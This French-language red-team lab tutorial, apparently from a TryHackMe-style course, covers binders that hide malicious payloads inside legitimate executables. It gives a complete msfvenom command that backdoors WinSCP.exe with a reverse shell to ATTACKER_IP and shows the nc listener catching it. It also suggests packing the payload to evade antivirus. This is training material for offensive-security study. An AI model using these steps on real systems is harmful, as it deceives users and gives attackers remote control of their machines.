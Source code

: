 Bien qu'il ne s'agisse pas d'une méthode de contournement antivirus , les classeurs sont également importants lors de la conception d'une charge utile malveillante à distribuer aux utilisateurs finaux. Un classeur est un programme qui fusionne deux (ou plus) exécutables en un seul. Il est souvent utilisé lorsque vous souhaitez distribuer votre charge utile cachée dans un autre programme connu pour tromper les utilisateurs en leur faisant croire qu'ils exécutent un programme différent.

![5c72d80a077a1f8a813a70c01a6561e9](https://github.com/dsgsec/Red-Team/assets/82456829/c327b30f-9a59-4309-b2a9-c8e1537bdd26)

Bien que chaque classeur puisse fonctionner légèrement différemment, ils ajouteront essentiellement le code de votre shellcode à l'intérieur du programme légitime et le feront exécuter d'une manière ou d'une autre.

Vous pouvez, par exemple, modifier le point d'entrée dans l'en-tête PE afin que votre shellcode s'exécute juste avant le programme, puis rediriger l'exécution vers le programme légitime une fois terminé. De cette façon, lorsque l'utilisateur clique sur l'exécutable résultant, votre shellcode sera d'abord exécuté silencieusement et continuera à exécuter le programme normalement sans que l'utilisateur ne s'en aperçoive.

Liaison avec msfvenom

Vous pouvez facilement insérer une charge utile de votre choix dans n'importe quel fichier .exe avec `msfvenom`. Le binaire fonctionnera toujours comme d'habitude mais exécutera une charge utile supplémentaire en silence. La méthode utilisée par msfvenom injecte votre programme malveillant en créant un thread supplémentaire pour celui-ci, elle est donc légèrement différente de ce qui a été mentionné précédemment mais permet d'obtenir le même résultat. Avoir un thread séparé est encore mieux puisque votre programme ne sera pas bloqué en cas d'échec de votre shellcode pour une raison quelconque.

Pour cette tâche, nous allons détourner l'exécutable WinSCP disponible sur `C:\Tools\WinSCP`.

Pour créer un WinSCP.exe de porte dérobée, nous pouvons utiliser la commande suivante sur notre machine Windows :

Remarque : Metasploit est installé sur la machine Windows pour votre commodité, mais la génération de la charge utile peut prendre jusqu'à trois minutes (les avertissements générés peuvent être ignorés en toute sécurité).

Boîte d'attaque

```
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

Le WinSCP-evil.exe résultant exécutera une charge utile reverse_tcp Meterpreter sans que l'utilisateur ne s'en aperçoive. Avant toute chose, pensez à configurer un `nc`écouteur pour recevoir le shell inversé. Lorsque vous exécutez votre exécutable dérobé, il devrait vous lancer un shell inversé tout en continuant à exécuter WinSCP.exe pour l'utilisateur :

| ![06c3bd06d935a937b2af7dace6a41a27](https://github.com/dsgsec/Red-Team/assets/82456829/950eb190-82d0-47cb-9e84-c6c465478194) | ➜ |

Boîte d'attaque

```
user@attackbox$ nc -lvp 7779
Listening on 0.0.0.0 7779
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

 |

Classeurs et AV

Les classeurs ne feront pas grand-chose pour cacher votre charge utile à une solution audiovisuelle . Le simple fait de joindre deux exécutables sans aucune modification signifie que l'exécutable résultant déclenchera toujours toute signature effectuée par la charge utile d'origine.

L'utilisation principale des classeurs est de tromper les utilisateurs en leur faisant croire qu'ils exécutent un exécutable légitime plutôt qu'une charge utile malveillante.

Lors de la création d'une charge utile réelle, vous souhaiterez peut-être utiliser des encodeurs, des crypteurs ou des packers pour masquer votre shellcode des AV basés sur des signatures, puis le lier à un exécutable connu afin que l'utilisateur ne sache pas ce qui est exécuté.

N'hésitez pas à essayer de télécharger votre exécutable lié sur le site Web de THM Antivirus Check (lien disponible sur votre bureau) sans aucun emballage, et vous devriez obtenir une détection en retour du serveur, cette méthode ne sera donc pas d'une grande aide lorsque vous essayez de obtenir le drapeau du serveur par lui-même.
